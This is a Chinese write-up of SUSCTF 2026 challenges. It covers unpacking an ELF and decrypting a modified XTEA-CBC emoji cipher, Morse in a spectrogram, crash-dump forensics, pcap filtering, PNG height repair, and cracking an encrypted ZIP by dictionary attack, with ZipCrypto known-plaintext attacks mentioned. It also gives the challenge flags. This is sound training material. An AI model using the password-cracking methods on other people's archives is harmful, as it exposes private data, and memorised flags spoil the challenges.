

简单询问ai可以知道，这个 main 函数极有可能是在创建匿名文件写入，通过 `fexecve` 直接执行。可以搜索了解一下



果不其然，我们发现了这个调用



所以我们可以直接在这里下断点，把匿名文件提取出来。



然后输入 info proc，获取 PID ，再 copy 出来



果然是elf。那么分析这个 elf 即可

主函数大致是这样

```c
int main()
{
  unsigned int v0; // edi
  _QWORD *v1; // rsi
  int *p_errnum_1; // rax
  char *v4; // rax
  int *p_errnum; // rax
  char *v6; // rax
  __int64 v7; // [rsp+18h] [rbp-38h] BYREF
  size_t v8; // [rsp+20h] [rbp-30h] BYREF
  void *ptr; // [rsp+28h] [rbp-28h] BYREF
  void *p_ptr; // [rsp+30h] [rbp-20h] BYREF
  const char *v11; // [rsp+38h] [rbp-18h]
  const char *v12; // [rsp+40h] [rbp-10h] BYREF
  int v13; // [rsp+4Ch] [rbp-4h]

  p_ptr = 0;
  ptr = 0;
  v8 = 0;
  v7 = 0;
  v13 = 1;
  if ( (unsigned int)sub_40186C(v0, v1, &v12) )
  {
    if ( (unsigned int)read_file(v12, &p_ptr, &v8) )
    {
      if ( (unsigned int)encrypt(p_ptr, v8, &ptr, &v7) )
      {
        if ( (unsigned int)write_file(v11, ptr, v7) )
        {
          printf("Encrypted %zu byte(s) -> %s\n", v8, v11);
          v13 = 0;
        }
        else
        {
          p_errnum = __errno_location();
          v6 = strerror(*p_errnum);
          fprintf(stderr, "error: cannot write output '%s': %s\n", v11, v6);
        }
      }
      else
      {
        fwrite("error: encryption allocation failed\n", 1u, 0x24u, stderr);
      }
    }
    else
    {
      p_errnum_1 = __errno_location();
      v4 = strerror(*p_errnum_1);
      fprintf(stderr, "error: cannot read input '%s': %s\n", v12, v4);
    }
    free(ptr);
    free(p_ptr);
    return v13;
  }
  else
  {
    sub_401840(*v1);
    return 2;
  }
}
```



40131E 函数是xtea加密（**有魔数\-1640531527（即0x9E3779B9\)**\)，但是魔改了一处。其它均为标准算法

Emoji 相关逻辑则只能在 `write_file` 函数里面了。注意到 `unk_402028` 附近有大量常量，翻译一下便知是emoji：


\(即题干中给出的16个emoji）

每个16进制字符用emoji分别代替即得到了最终的密文。

exp如下：

```python
#!/usr/bin/env python3
import argparse
from pathlib import Path

KEY = b"refinalchallenge"
IV = b"emojirev"
DELTA = 0x9E3779B9
MASK32 = 0xFFFFFFFF

EMOJI = [
    "😀","😁","😂","😃","😄","😅","😆","😇",
    "😈","😉","😊","😋","😌","😍","😎","😏",
]
EMOJI_INV = {ch: i for i, ch in enumerate(EMOJI)}


def u32(x: int) -> int:
    return x & MASK32


def key_words(key: bytes):
    if len(key) != 16:
        raise ValueError("XTEA key must be 16 bytes")
    return [int.from_bytes(key[i:i + 4], "little") for i in range(0, 16, 4)]


def xtea_decrypt_block(block: bytes, key) -> bytes:
    if len(block) != 8:
        raise ValueError("XTEA block must be 8 bytes")

    v0 = int.from_bytes(block[0:4], "little")
    v1 = int.from_bytes(block[4:8], "little")
    summ = u32(DELTA * 32)

    for _ in range(32):
        # Reverse the standard second half-round first.
        mix1 = u32((((v0 << 4) & MASK32) ^ (v0 >> 5)) + v0)
        v1 = u32(v1 - (mix1 ^ u32(summ + key[(summ >> 11) & 3])))

        summ = u32(summ - DELTA)

        # Reverse the challenge-modified first half-round: >> 6.
        mix0 = u32((((v1 << 4) & MASK32) ^ (v1 >> 6)) + v1)
        v0 = u32(v0 - (mix0 ^ u32(summ + key[summ & 3])))

    return v0.to_bytes(4, "little") + v1.to_bytes(4, "little")


def emoji_decode(text: str) -> bytes:
    chars = [c for c in text.strip() if not c.isspace()]
    if len(chars) % 2:
        raise ValueError("odd emoji count")

    out = bytearray()
    for i in range(0, len(chars), 2):
        try:
            hi = EMOJI_INV[chars[i]]
            lo = EMOJI_INV[chars[i + 1]]
        except KeyError as exc:
            raise ValueError(f"unknown emoji: {exc.args[0]!r}") from None
        out.append((hi << 4) | lo)
    return bytes(out)


def cbc_decrypt(cipher: bytes) -> bytes:
    if not cipher or len(cipher) % 8:
        raise ValueError("ciphertext length must be a non-zero multiple of 8")

    key = key_words(KEY)
    prev = IV
    plain = bytearray()

    for off in range(0, len(cipher), 8):
        cur = cipher[off:off + 8]
        dec = xtea_decrypt_block(cur, key)
        plain.extend(a ^ b for a, b in zip(dec, prev))
        prev = cur

    pad = plain[-1]
    if pad < 1 or pad > 8 or plain[-pad:] != bytes([pad]) * pad:
        raise ValueError("bad PKCS#7 padding")
    return bytes(plain[:-pad])


def main():
    ap = argparse.ArgumentParser(
        description="Organizer reference decryptor for EMOJI v0.3.3 modified XTEA-CBC"
    )
    ap.add_argument("input", type=Path)
    ap.add_argument("output", type=Path, nargs="?")
    args = ap.parse_args()

    cipher = emoji_decode(args.input.read_text(encoding="utf-8"))
    plain = cbc_decrypt(cipher)

    if args.output:
        args.output.write_bytes(plain)
        print(f"[+] wrote {len(plain)} byte(s) to {args.output}")
    else:
        try:
            print(plain.decode("utf-8"))
        except UnicodeDecodeError:
            print(plain.hex())


if __name__ == "__main__":
    main()
```

得到flag

```text
susctf{Woww_You_know_unp4cking!!!_I_am_gl@d_to_see_you_solving_these_ch4llenges_&_This_is_th3_first_journey_7o_learn_reverse_eng1neering_and_I_wi5h_y0u_to_keep_your_enthus1asm_Best_Wishes_for_you_&_Later_see_you_in_master_competitions!!!}
```

> 感兴趣的师傅可以搜一搜**ELF Section 注入式 Packer**，这种“壳”和常规壳有一些区别，破解关键不在于寻找OEP，
> 

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

Reverse 部分题目的解析就到这里，有缘的话和师傅们正赛再见！😊

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

> 附 深夜审 wp 吓了一跳 好恐怖的图


<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

---

## Misc

### Singing \& Signin

> 欢迎各位师傅来到susctf2026！先来听一首歌吧😊
>
> 注：压缩包密码是 `23u9805nfw023$@3`
>
> 附件下载链接：
>
> [百度网盘](https://pan.baidu.com/s/1BzGG8pXC_tubrde0bfANWg?pwd=uvhw)
>
> [夸克网盘](https://pan.quark.cn/s/369e70a3d160?pwd=caaB)
>
> [东大云盘](https://pan.seu.edu.cn/link/AADEE0BC444CCE4B7CA45B69BD18011A53) - 提取码为Qgid
>
> 注：flag中的所有字母请使用**小写**，需要添加连字符`_`

我红温了，怎么链接还能失效 ~~真有人举报吗🤯~~

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

下载附件，得到的是一个MP4文件，先做基本的检查。


发现Comment字段的hint：“这首歌真好听。”

结合题干“听一首歌”“这首歌真好听”但给出的是MP4文件，所以尝试先提取音频分析。

这里使用的是命令行工具ffmpeg，也有其他的方法。

```bash
ffmpeg -i challenge.mp4 -vn challenge.wav
```

得到音频之后用工具audacity打开


从波形图来看没有什么异常情况。切换到频谱视图。


观察频谱图，上方有一条虚线，放大查看。


观察到短横和长横交错分布，很明显是摩斯密码，/是分词符。

可以选择手动破译或者找一个网站。

以[https://www\.lddgo\.net/encrypt/morse](https://www.lddgo.net/encrypt/morse)为例，解码得


根据频谱的斜线，将flag分词：A SON9 F0R U WELC0M3 TO SUSCTF2026

添加连字符,转为小写并用susctf\{\}包裹

```text
susctf{a_son9_f0r_u_welc0m3_to_susctf2026}
```

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

---

### Silent Crash

> Rekjo 的 PC 静悄悄地**崩溃**了 😭 快化身小侦探，寻找 Windows 留下的蛛丝马迹吧！

说来悲伤，在一个~~月黑风高~~的傍晚，苦命大学生刚刚做完工图作业，把笔记本拔电离开教室去吃饭 就这么一会功夫电脑直接挂了

这谁绷得住啊😭

出这个题还是有一些意义的，下次如果遇到这种问题小师傅们也可以自己分析 dmp 了（当然，希望大家的电脑都好端端的

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

题目给出了一份\.dmp文件。

> **\.dmp文件**是Windows系统在发生蓝屏或程序崩溃时生成的内存转储文件，用于记录系统错误的详细信息。这些文件通常存储在系统目录下，例如*C:\\Windows*或*C:\\Windows\\Minidump*，并可通过调试工具进行分析以定位问题根源。
> 
> 

使用 WinDbg 打开。调试器会提示可以执行`!analyze -v`

#### Q1

分析结果：

PAGE\_FAULT\_IN\_NONPAGED\_AREA \(50\)

因此：

```text
Q1 = 50
```

`0x50` 表示内核访问了无效的系统内存地址。

#### Q2

BugCheck 参数：

Arg1: ffffee899137f78c

Arg2: 0000000000000002

Arg1 是被访问的地址。

对于 x64 的 0x50，Arg2 的 bit 1 置位表示写访问。`2 = 0b10`，因此此次访问是 `write`。分析结果中的：

AV\.Type = Write

也可以用于交叉验证。

所以：

```text
Q2 = ffffee899137f78c_write
```

排查 BugCheck 时，不应只看错误名称，还应继续阅读参数的定义。

#### Q3

分析中可以看到：

Failure\.Exception\.IP\.Module = nvlddmkm

IMAGE\_NAME = nvlddmkm\.sys

调用栈中 Page Fault 也直接落到：

nt\!KiPageFault

nvlddmkm\+0x16ada6f

因此直接执行异常写操作的驱动映像为：

```text
Q3 = nvlddmkm.sys
```

这里能证明的是 `nvlddmkm.sys` 是直接 faulting component；不能仅凭这一点就断言更深层 root cause 一定是 NVIDIA 驱动自身缺陷。

#### Q4

故障指令地址：fffff804814dda6f

模块加载基址：fffff8047fe30000

二者相减：

fffff804814dda6f \- fffff8047fe30000 = 16ada6f

也可以在分析结果中直接看到：

Failure\.Exception\.IP\.Offset = 0x16ada6f

因此：

```text
Q4 = 16ada6f
```

相对模块偏移比本次加载时的绝对地址更适合描述故障位置。

#### Q5

分析结果给出：

PROCESS\_NAME: System

因此：

```text
Q5 = System
```

这也说明不要简单根据“蓝屏前正在使用哪个前台应用”判断崩溃归因。蓝屏是内核级异常，此处 faulting code 位于内核驱动，并发生在 System 上下文。

#### Q6

`!analyze -v` 中会提示 Dump 保存了额外的 Blackbox 数据，例如：

BLACKBOXBSD: 1 \(\!blackboxbsd\)

BLACKBOXPNP: 1 \(\!blackboxpnp\)

继续查看 BSD Blackbox：

\!blackboxbsd

可以看到：

System running: TRUE

Connected standby in progress: TRUE

User shutdown in progress: FALSE

System shutdown in progress: FALSE

因此崩溃时系统仍处于 Connected Standby：

```text
Q6 = connectedstandby
```

初步定位模块后，应该继续检查 Dump 是否还保存了启动、电源、PnP、文件系统等额外现场信息。

#### Q7

崩溃时间：

Debug session time: Fri Sep 11 17:54:03\.168 2026 \(UTC \+ 8:00\)

BSD Blackbox 的最后参考时间：2026\-09\-11T09:54:02\.421Z

`Z` 表示 UTC，因此换算到 UTC\+8：

09:54:02\.421Z = 17:54:02\.421 UTC\+8

再与崩溃时间相减：

17:54:03\.168 \- 17:54:02\.421 = 0\.747 s = 747 ms

所以：

```text
Q7 = 747
```

取证分析时，跨日志或跨结构关联时间前要先统一时区。

#### Q8 \- 最终结论

PnP Blackbox 中还能看到：

PnpProblemCode : 22

DeviceId       : ROOT\\\\VMS\_VSMP\\\\0001

同时系统中存在 Hyper\-V。这些信息是真实的现场信息，但不能仅凭它们断言 Hyper\-V 就是本次蓝屏的根本原因。

当前证据能够支持的是：

- 直接 faulting instruction 位于 `nvlddmkm.sys`；

- 发生的是一次无效内存写；

- 崩溃时系统处于 Connected Standby；

- 最后一次电源状态参考记录与 BugCheck 时间只相差 747 ms；

- 仅凭这份 Dump 尚不足以把更深层 root cause 唯一确定为某个具体驱动缺陷、Hyper\-V、拔电操作或硬件故障。

因此最严谨的选项是：

```text
Q8 = C
```

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

flag2:

```text
susctf{An4lyze_crash_iS_n07_d1fficult!!}
```

电脑崩溃没有想象中那么可怕，希望这道题目可以让小师傅们学习故障分析的一些基本方法，下次遇到的时候也可以尝试自己分析啦

```text
最终答案
 Q1  50
 Q2  ffffee899137f78c_write
 Q3  nvlddmkm.sys
 Q4  16ada6f
 Q5  System
 Q6  connectedstandby
 Q7  747
 Q8  C
```

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

---

### 【中秋限定】花好月圆

> 中秋节到了，rekjo邀请各位师傅一起观花赏月。

这个题有点意外，以为 tc flower 会卡住部分师傅的 从大家做题反馈上看似乎还好

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

#### 【中秋限定】花好月圆\-1

解压附件，发现是一个流量包和ingress\.conf文件，不妨先打开看看ingress\.conf里面有什么。


对Linux运维比较熟悉的师傅一眼可以认出这是Linux **TC\(Traffic Control\)**的流量控制命令。

如果是第一次遇到也没关系，善于搜索总是能够得到答案的:D


可参考下面这篇文章：

[https://blog\.csdn\.net/gitblog\_00348/article/details/151595341\#:\~:text=flower%EF%BC%88Flow\-Based%20Traffic%20Control%EF%BC%89%E8%BF%87%E6%BB%A4%E5%99%A8%E6%98%AF%E4%B8%80%E7%A7%8D%E5%9F%BA%E4%BA%8E%E6%B5%81%E7%9A%84%E8%BF%87%E6%BB%A4%E5%99%A8%EF%BC%8C%E6%94%AF%E6%8C%81%E5%A4%9A%E7%A7%8D%E9%AB%98%E7%BA%A7%E5%8C%B9%E9%85%8D%E6%9D%A1%E4%BB%B6%E3%80%82%20%E5%85%B6%E5%9F%BA%E6%9C%AC%E8%AF%AD%E6%B3%95%E5%A6%82%E4%B8%8B%EF%BC%9A%20%5B%20prio%20PRIO%20%5D,%5B%20dst\_ip%20IP\_ADDR%20%5D%20%5B%20src\_port%20PORT%20%5D](https://blog.csdn.net/gitblog_00348/article/details/151595341#:~:text=flower%EF%BC%88Flow-Based%20Traffic%20Control%EF%BC%89%E8%BF%87%E6%BB%A4%E5%99%A8%E6%98%AF%E4%B8%80%E7%A7%8D%E5%9F%BA%E4%BA%8E%E6%B5%81%E7%9A%84%E8%BF%87%E6%BB%A4%E5%99%A8%EF%BC%8C%E6%94%AF%E6%8C%81%E5%A4%9A%E7%A7%8D%E9%AB%98%E7%BA%A7%E5%8C%B9%E9%85%8D%E6%9D%A1%E4%BB%B6%E3%80%82%20%E5%85%B6%E5%9F%BA%E6%9C%AC%E8%AF%AD%E6%B3%95%E5%A6%82%E4%B8%8B%EF%BC%9A%20%5B%20prio%20PRIO%20%5D,%5B%20dst_ip%20IP_ADDR%20%5D%20%5B%20src_port%20PORT%20%5D)

根据介绍，TC框架主要由以下三个组件组成：

1. QDisc（排队规则）：控制数据包的排队和调度方式

2. Class（类别）：将流量划分为不同的类别，以便进行差异化处理

3. Filter（过滤器）：根据指定的规则对数据包进行分类，决定其归属的类别或处理方式

wireshark打开流量包可以发现，流量长达30213条，因此我们急需过滤器。所以只需要关注ingress\.conf里面的filter规则即可。

文中给出了filter的具体参数，可以知道这是flower过滤器，则查看flower过滤器对应的参数：

```bash
tc filter add dev DEV [ parent qdisc-id | root ] [ protocol PROTO ]
               [ prio PRIO ] flower [ src_mac MAC_ADDR ] [ dst_mac MAC_ADDR ]
               [ src_ip IP_ADDR ] [ dst_ip IP_ADDR ] [ src_port PORT ]
               [ dst_port PORT ] [ ip_proto PROTO ] [ tcp_flags FLAGS ]
               [ vlan_id VID ] [ vlan_prio PRIO ] [ action ACTION_SPEC ]
               [ classid CLASSID ]
```

因此，可以将filter规则翻译为对应的wireshark过滤语言：

```text
eth.dst == 02:42:ac:10:0f:06 &&
ip.src == 10.8.0.0/16 &&
ip.dst == 172.16.15.6 &&
udp.dstport == 2026
```


输入过滤命令之后，果然只剩下了213条数据包。

没有其它的提示，不妨先从第一条开始看，右键选择追踪流\-\>追踪udp流

得到

```text
2xiRfRPw84pCLoBWjVqUJrqwr8HEh18qMWtaLeWhm1Wmxjnx3k8KmdP6gGchsStwQbWMqTYKdGoBi
```

明显是经过base编码得到的数据。简单尝试可知是base58，解码得到flag1: 

```text
susctf{Fl0w3r_f1nds_7he_ri9ht_f1ow!}
```

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

#### 【中秋限定】花好月圆\-2

接下来继续处理剩余的udp流量。

我们从41001开始，即单击第六条流量，追踪udp流


可以发现开头是PNG文件的文件头，即流量包中传输了至少一张图片：


切换到Hex转储可以看得更清晰。观察流量末尾，并不是PNG文件正确的文件尾：


可以猜测这里只传输了一半的图片，我们再去查看一下41002：


这里流量的开头是杂乱无章的字节，但是出现了正确的PNG文件尾IEND，证实了上面的猜想。

（PNG文件知识可以参考[https://zhuanlan\.zhihu\.com/p/397397536](https://zhuanlan.zhihu.com/p/397397536)或wiki）

所以只需要将两部分的字节拼起来可以得到原图片。

工具很多，rekjo选取的是HxD，相比010editor更方便创建文件（但是没有模板功能）。也可以使用wireshark的导出组功能，看个人熟练度。

可以得到如下图片：


这是一张中秋题材的图片，观察左下角的玉兔是不是感觉这幅“画”没有画完？不难想到是图片高度被恶意篡改了，需要恢复正确的高度。这里需要充分了解PNG的文件结构知识。

如何计算出正确的图片高度呢？其实图片的数据就可以告诉我们。

首先用十六进制编辑器打开图片，读取其IHDR数据块：

00 00 02 54 00 00 02 49 08 06 00 00 00

即图片的Width为596像素，Height为585像素。这里的Height是错误的，width可以相信。图片是简单的RGBA图片，即4 bytes / pixel，所以每行是4\*596=2384 bytes。PNG 每条 scanline 前面还有一个Filter Type byte，所以每行是2384\+1=2385bytes。

PNG由多个IDAT数据块拼接组成，IDAT的总长度可以通过脚本获得。全部连接起来得到compressed\_stream，然后zlib\.decompress\(compressed\_stream\)。

最后计算解压后的长度，除以2385就是正确的行数。

```python
import struct
import zlib
 
data = open("Untitled1.png", "rb").read()
 
pos = 8
idat = bytearray()
 
width = height = None
 
while pos < len(data):
    length = struct.unpack(">I", data[pos:pos+4])[0]
    ctype = data[pos+4:pos+8]
    cdata = data[pos+8:pos+8+length]
 
    if ctype == b"IHDR":
        width = struct.unpack(">I", cdata[0:4])[0]
        height = struct.unpack(">I", cdata[4:8])[0]
        bit_depth = cdata[8]
        color_type = cdata[9]
        interlace = cdata[12]
 
    elif ctype == b"IDAT":
        idat += cdata
 
    elif ctype == b"IEND":
        break
 
    pos += 12 + length
 
raw = zlib.decompress(idat)
 
# 图是 RGBA8
bytes_per_pixel = 4
 
scanline_size = 1 + width * bytes_per_pixel
 
real_height = len(raw) // scanline_size
 
print("IHDR height:", height)
print("raw bytes:", len(raw))
print("bytes per scanline:", scanline_size)
print("real height:", real_height)
```


可以得到正确的Height是842，即正确的高度字节应该是00 00 03 4A。将00 00 02 49改为00 00 03 4A即可打开正确的图片。

（注：修改图片之后，CRC没有修改，因此会报错，可以修改为正确的CRC：


将对应位置的6C D0 A9 6C改为 4C 33 D0 76即可。

CRC不影响PNG解析器的解析，即使不修改也可以正常读图。）

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>


得到flag2:

```bash
susctf{Pn9_15_fun_&_H4ppy_Mid-Autumn_F3stiv4l!!!!}
```

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

**PS 本来没打算改 CRC32 的，后来想想如果不改 pngcheck 直接秒出，还是改一下算了 :D**

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

---

### 加密文件

> Rekjo在桌面上发现了一个加密的压缩包，一起来探索其中的奥秘吧~

加密是现代社会保护信息与数据安全的重要手段。与 Crypto 方向更多关注密码学算法、数学结构及其实现漏洞不同，Misc 方向中涉及加密的题目，往往更关注加密方案的使用方式、工具特性以及口令本身的安全性。

常见的安全问题主要有以下几类：

A\. **旧式或存在已知弱点的加密方案**：使用了已经被证明不再安全，或已有成熟攻击方法的加密算法、协议或文件格式。

B\. **加密方案或实现存在局限**：加密本身并非在所有情况下都安全，在满足特定条件时可能暴露可被利用的弱点。

C\. **弱密码**：密码长度不足、结构简单或过于常见，容易受到字典攻击或暴力破解。

D\. **社会工程学**：密码与生日、手机号、用户名等容易获取的信息相关联，攻击者可以结合这些信息缩小密码范围。

E\. **密码复用**：在多个文件、账号或服务中使用相同或高度相似的密码，使攻击者在获取其中一个密码后，可以进一步尝试访问其他目标。(eg. 撞库攻击)

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

#### 加密文件\-1

首先观察加密文件\.zip，里面有0901\.log,challenge和flag1\.txt一共3个文件，且加密方法为AES\-256。经过尝试发现不是伪加密，且没有额外提示，所以首先考虑弱密码。

这里以我比较喜欢的图形化工具 ARCHPR 为例破解，感兴趣的师傅也可以自行搜索 hashcat 或者 john ，学习命令行的爆破方法。


根据个人习惯，我一般会先用自写的numbers\.dic和rockyou\.dic进行字典爆破，再考虑使用暴力破解。这里用字典爆破可以轻松得到答案。


可以得到flag1：ssuussccttff\{\{WWeeaakk\_\_pp44sssswwoorrdd\_\_1155\_\_ddaanngg33rr00uuss\!\!\!\!\}\}

\(bushi

**当然不是提交这个了**，观察一下发现每个字符重复了两次，于是删掉一半即可。

flag1: 

```text
susctf{Weak_p4ssword_15_dang3r0us!!}
```

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

#### 加密文件\-2

接下来查看0901\.log，发现里面的内容也重复了两次。还原之后的结果是：

```text
WHAT?!!My keyboard seems broken!! REMEMBER "susctf2026misc" !
```

看来文件的主人的键盘出现了一点故障，每输入一个字符就会变成两个。并且给出了一个神秘字符`susctf2026misc`

考虑到这个字符串很短且含义明确，可以怀疑这是一个密码。那么压缩包内仅剩下的那个challenge文件即为我们的目标。

然而很不幸


说明file没有解析到任何有效文件标识，不妨打开十六进制编辑器查看是不是文件头被删了？


可以发现非常杂乱无章，这里用另一个工具可以验证我们的想法。**Entropy**（熵）能被用于衡量系统的混乱程度，熵值越大，说明混乱程度越高。信息熵的具体计算公式可以自行搜索博客，这里只给出计算脚本。

```python
import sys
import math
from collections import Counter
 
filename = sys.argv[1]
 
with open(filename, "rb") as f:
    data = f.read()
 
if not data:
    print("Empty file")
    sys.exit()
 
counter = Counter(data)
length = len(data)
 
entropy = 0.0
 
for count in counter.values():
    p = count / length
    entropy -= p * math.log2(p)
 
print(f"File: {filename}")
print(f"Size: {length} bytes")
print(f"Entropy: {entropy:.6f} bits/byte")
print(f"Normalized: {entropy / 8 * 100:.2f}%")
```

可以发现这个文件的熵已经无限趋近于8，这是非常可疑的信息。

另外，如果你还能注意到这样一个事实：challenge的大小是**51200kb**甚至是**52428800=50\*1024\*1024**，即刚刚好是50兆，没有一个字节多余。

因此有可能是某种人为创造的**加密容器**。

在信息爆炸的年代搜索应该是不难的，~~或者拿AI爆杀~~


下载好VeraCrypt之后，利用密码susctf2026misc即可解密，挂载到任意盘符。

可以得到step2\.zip，看到熟悉的压缩包我们继续查看其基本信息


发现里面的算法变成了ZipCrypto Store。搜索这种算法可以知道其非常古老，属于开头导语提到的B类问题。

**ZipCrypto算法容易遭到明文攻击。**尤其是Store，不压缩的情况下可以很容易拼凑明文字节。可以参考[https://www\.freebuf\.com/articles/network/255145\.html](https://www.freebuf.com/articles/network/255145.html)

